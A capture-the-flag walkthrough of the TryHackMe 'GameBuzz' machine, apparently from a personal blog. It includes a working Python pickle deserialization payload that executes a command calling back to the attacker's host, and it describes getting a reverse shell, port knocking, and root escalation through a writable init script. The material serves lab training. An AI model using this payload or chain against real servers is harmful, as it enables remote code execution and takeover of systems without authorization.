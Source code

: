 <h3> GameBuzz TryHackMe </h3>

Difficulty = Hard

Nmap Scan:
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2b8867ef-56a0-43e5-860d-f2453459c873)

Going over to the web server shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/72c13526-255a-4bc4-ae0b-8d729902260d)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/358c80bb-9bcd-49ff-9d4d-d22e05cf18b7)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/57414644-72f7-45a4-8ba3-b3ba4eb2e751)

Noticing the email *admin@incognito.com* we can deduct that the domain name is *incognito.com*

I'll add that to my */etc/hosts* file

Now poking around this web app i saw the *Game Rating* function
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/35f31582-8204-4839-a88f-ee25889b5252)

When you click it and then click game 1 with a proxy on this is what I got
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/73392813-ef46-4ce4-98e4-add3c1cfbfc9)

```json
{"object":"/var/upload/games/object.pkl"}
```

We can see that it's loading the object pickled file 🤔

Let's keep this in mind!

Now for more enumeration since we have the domain lets fuzz for sub domains 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a6783ee6-458f-4c0c-a655-c34d945fe539)

I got *dev* so i'll update my */etc/hosts* file with the new subdomain *dev.incognito.com*

Going over to the newly founded subdomain shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/406ca395-c76f-41f1-b11a-b2948a14d85a)

Checking */robots.txt* shows */secret*
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2b6d8c8c-0285-4aec-bd2b-13f7bc04f112)

But after navigating to */secret* gives 403 forbidden
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/add9bbf8-6807-4155-ae7d-659b2488e247)

So I fuzzed for files there and got */upload*
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/c1966332-64c8-4382-8ed7-75c9343d5055)

Moving there shows an upload form 

Now this is good cause remember from the main domain we can call any pickled file and since we are opportuned to upload any file lets upload a pickle file

I made a script to make icmp callback to my host

```python
#!/usr/bin/python3
# Author: Hack.You
import os
import pickle

class Shell(object):
    def __reduce__(self):
        cmd = 'ping -c 5 10.2.42.156'
        return (os.system, (cmd,))

pickledData = pickle.dumps(Shell())
with open('payload.pkl', 'wb') as f:
    f.write(pickledData)

```

Running it creates the pickle file 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/3d67b081-9fbf-44dd-92bf-e90fb55d9253)

Now let upload the serialized payload
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/edb33e1e-ad19-4e34-b60f-101383fcac10)

I already setup *tcpdump* listening for icmp connection 

```bash
sudo tcpdump -i tun0 icmp
```

Since the file is already uploaded we can call it via the fetch endpoint on the main domain
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/9419975b-ed4c-4d53-9eb0-cec23cc454d6)

```json
{"object":"/var/upload/payload.pkl"}
```

Back on tcpdump we get a hit 😄
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/8a0bdbe0-d147-4350-a9f5-de65e9ad368f)

Now lets get shell. Here's my payload [script](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/thm/GameBuzz/pickle.py)

After running it and uploading it then using the fetch endpoint to load the pickle data I got shell
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/7ee6d51c-1040-4c2d-be89-184992a40d11)

Let do some privilege escalation 

Running linpeas shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f9e7b38c-e18f-46e5-afd3-12d59976714e)

Viewing the file gives the password for user dev1 as *dc647eb65e6711e155375218212b3964*

![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/b23adc48-ccec-49a1-b591-44f805c2e430)

But we can't switch to the user from the box so we need to login to ssh

But no ssh port is open

From the hint we are to do port knocking for we to get access to the ssh service

Looking at the knock config file shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/8f9969a0-aaa0-4b25-ad6e-de2de82580c6)

This means we're to knock the followng ports *[5020,6120,7340]* for ssh to be open

Luckily there's an open source tool on kali that can easily do this for us
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a42f9b32-9a61-4c67-9722-ee7a508a6f37)

Now that ssh is open let us login as dev1
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/e766b550-f2ef-471e-b284-70fee8cfba5a)

Checking *sudo -l* shows we can run as *root* on */etc/init.d/knockd*
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/4cad41e1-c3db-484b-bdd2-ec0e5dd73d8e)

But we don't have write access over the file
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a4915ecf-851b-4452-ba1e-3b763f9afaa3)

So i ran linpeas again and got this

It shows this file has ACL perm set on it

And to confirm it we can check it
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/fee6e2a0-0a09-42fb-9e5d-0cf821d92d16)

The *+* sign at the end of the perm signifies ACl 

With ACL set on we can change the permission on the file

So lets edit it to get a reverse shell
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/4fa768fb-90a4-47b1-af59-8fefc4958d25)

Now lets restart the service
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/8e541218-4b6a-4a7e-bdc7-b7cc82a9047d)

With this set we now need to stop the knock service and start it back then port knock the ports
![Uploading image.png…]()

And we're done 👻


